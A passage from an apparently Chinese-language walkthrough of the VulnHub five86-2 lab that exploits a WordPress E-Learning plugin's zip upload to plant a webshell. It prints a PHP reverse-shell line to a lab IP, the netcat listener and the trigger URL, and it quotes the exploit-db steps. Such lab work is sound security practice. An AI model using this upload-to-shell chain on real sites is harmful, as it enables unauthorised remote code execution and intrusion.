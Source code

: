 ```
zip poc.zip index.html index.php

## 2. Log in to wp-admin with any user role that has access to the plugin functionality (by default even `Contributors` role have access to it)
## 3. Create a new Post -> Select `Add block` -> E-Learning -> Upload the poc.zip -> Insert as: Iframe -> Insert (just like in tutorial https://youtu.be/knst26fEGCw?t=44 ;)
## 4. Access the webshell from the URL displayed after upload similar to

http://website.com/wp-admin/uploads/articulate_uploads/poc/index.php?cmd=whoami
```

在`youtube`上有[简单的步骤教程][11]

我来跟着它做一遍，注意对应修改你的代码：

```
echo "<html>hello</html>" > index.html
index.php用vim写入以下内容
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.6/3333 0>&1'");
zip poc.zip index.html index.php
```

![][12]

写入`index.php`反弹`shell`的语句姿势很多，自行搜索

新建一篇文章，默认模板会让你添加块，选择`E-Learning`模块：

![][13]

点击上传，选择我们的`poc.zip`：

![][14]

![][15]

显示`upload complete`之后拉到最后点击`insert`，然后就会得到一个上传的路径：

![][16]

此时我的`shell`已经成功的上传到了靶机上，先在本机开启监听`nc -lvp 3333`

然后访问我们的`shell`:

```
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php
```

本机成功拿到`shell`:

![][17]

## 0x03 tcpdump 抓包 ftp 账密

这个`shell`肯定不好用，老方法用`python`开启`tty`:


[1]: https://www.vulnhub.com/entry/five86-2,418/
[2]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_095716.png
[3]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_100229.png
[4]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_101240.png
[5]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_101839.png
[6]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_102125.png
[7]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103643.png
[8]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103157.png
[9]: https://www.exploit-db.com/
[10]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_103920.png
[11]: https://youtu.be/knst26fEGCw?t=44
[12]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_105145.png
[13]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140110.png
[14]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140334.png
[15]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140925.png
[16]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_140956.png
[17]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_142334.png
[18]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_142738.png
[19]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143212.png
[20]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143404.png
[21]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_143757.png
[22]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_144656.png
[23]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150009.png
[24]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150242.png
[25]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150429.png
[26]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150524.png
[27]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150948.png
[28]: https://img.soapffz.com/archives_img/2020/03/30/archives_20200330_150831.png
[29]: https://mp.weixin.qq.com/s/V2V03UKaQgQaq3oXcZGvmQ
[30]: https://www.hacknos.com/five86-2-walkthrough-vulnhub-ctf/